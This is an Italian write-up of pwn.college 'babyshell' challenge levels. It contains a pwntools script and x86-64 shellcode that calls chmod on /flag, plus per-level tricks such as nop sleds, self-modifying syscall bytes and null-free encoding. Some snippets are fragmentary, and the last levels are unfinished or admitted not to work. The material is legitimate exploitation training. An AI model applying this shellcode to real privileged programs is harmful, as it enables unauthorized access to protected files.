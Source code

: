 # Questo è un metodo alternativo ma che funziona più dell'altro

## Setup base

La base consiste nel creare un file python che sfrutta la libreria di pwn per eseguire tutte le challenge e lo shellcode chmod per abilitare la lettura di /flag

```py
from pwn import *

context.update(arch="amd64", encoding="latin")

challenge = "/challenge/babyshell_level1"

flag = b'flag'[::-1].hex()

shellcode = f'''
push 0x{flag}
push rsp
pop rdi

push 6
pop rsi

push 0x5a
pop rax
syscall      
'''

shellcode = asm(shellcode)

with process([challenge], cwd='/') as p:
   # print(p.recvuntil(b'[LEAK]').decode())
    p.send(shellcode)
    print(p.interactive())
```

Una volta inserito lo shellcode desiderato basta runnare il programma dalla directory in cui è contenuto facendo ```python3 nome_programma.py``` e otterremo un modulo interattivo che stampa e visualizza la challenge.  
Una volta finito basterà andare nella cartella root e, dopo aver controllato il successo del chmod usare cat per visualizzare la flag, con ```cat /flag```

## Shellcode chmod

```s
push 0x{flag}   #carica nello stack la flag
push rsp        #carica nello stack il puntatore alla cima dello stack
pop rdi         #lo sposta nel registro rdi cossichè punti al nome del file da modificare

push 6          #carica nello stack il valore dei permessi del chmod
pop rsi         #lo sposta nel registro rsi

push 0x5a       #carica nello stack il valore 90, numero della syscall chmod
pop rax         #lo sposta dentro rax
syscall         #chiama la syscall
```

## Spiegazione delle varie challenge e shellcode risolutiva

+ Livello 1 è molto basilare, prende il codice e lo esegue direttamente. La shellcode da usare è quella base del chmod

+ Livello 2 impone come restrizione di saltare fino a 2048 byte oltre l'inizio. Soluzione consiste nel inseire un nop sled, ovvero una sequenza di 2048 nop per evitare questo salto, e runnare il programma più volte finchè non passerà o darà una risposta diversa dal solito.  
Per farlo usiamo l'istruzione assembly .rept <quantità>, nello specifico:

    ```s
    start:
        .rept 2048
            nop
        .endr

        # codice continua qui
        mov rbx, 0x00000067616c662f
    ```

+ Livello 3 richiede di scrivere una shellcode senza avere NULL byte, ovvero byte 00 nel codice. I byte 00 li troviamo quando facciamo somme su registri a 64 bit con numeri non abbastanza grossi oppure quando carichiamo su un registro a 64 bit /flag lasciando 3 caratteri a 00.  
Lo shellcode base proposta risolve già il problema eseguendo solo push e pop

+ Livello 4 richiede di non avere byte che in esadecimale formino il 48, ovvero la lettera H, che sono i byte delle istruzioni mov, xor e inc a 64 bit. La soluzione è usare registri a 32 bit oppure usare push e pop nei registri.  
La shellcode base proposta risolve già il problema eseguendo solo push e pop

+ Livello 5 richiede che non ci siano chiamte dirette alla syscall in alcun modo, ma solo indirette. Si risolve andando a modificare la parte della chiamata inserendo manualmente i byte della chiamata e forzandola dunque in fase di esecuzione

    ```s
    ...
    pop rax

    inc BYTE PTR [rip]
    .byte 0x0e
    .byte 0x05
    ```

+ Livello 6 pone le restrizioni del livello 5, ma aggiunge il blocco ai primi 4096 byte di codice il permesso di scrittura.  
La soluzione molto banale è quello di aggiungere al codice del livello 5 un nop sled di 4096 byte

    ```s
    .rept 4096
    nop
    .endr

    push 0x{flag}
    ...
    pop rax

    inc BYTE PTR [rip]
    .byte 0x0e
    .byte 0x05
    ```

+ Livello 7 blocca dopo la prima syscall di qualsiasi shellcode tutti gli stdin e tutti gli stdout, compresi quelli degli errori, forzandoti a fare uno shellcode che faccia tutto direttamente e senza stampare nulla (o usando metodi parecchio tricky)
Lo shellcode base proposto risolve già il problema in quanto è un chmod mono stage.

+ Livello 8 richiede uno shellcode base di meno di 18 bytes e gli blocca il permesso di scrittura dei primi 4096 byte di istruzioni.  
Lo shellcode base proposto risolve già il problema in quanto è lungo 15 byte e non necessità di scrivere.

+ Livello 9 modifica 10 byte di codice ogni 10 byte di codice in 0xcc, quindi dobbiamo allungarlo parzialmente di 10 nop dopo 10 byte effettivi e runnarlo più volte per beccare il codice corretto

    ```s
    push 0x{flag}
    push rsp
    pop rdi
    jmp daje

    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop

    daje:
    push 6
    pop rsi

    push 0x5a
    pop rax
    syscall
    ```

+ Livello 10 sorta randomicamente porzioni di 8 byte. Va runnato la challenge normale più volte

+ Livello 11 sorta randomicamente porzioni di 8 byte e chiude lo stdin, quindi ti vincola a usare uno shellcode monostage. La nostra shellcode base va bene

+ Livello 12 pone come restrizione che tutti i byte devono essere diversi, quindi non si possono usare istruzioni uguali

    ```py
    push 0x{flag}
    push rsp
    pop rdi

    mov sil, 6

    push 0x5a
    pop rax
    syscall
    ```

+ Livello 13 richiede di fare un codice di soli 12 byte. Dovrei aver trovato una soluzione ma non funzia

+ Livello 14
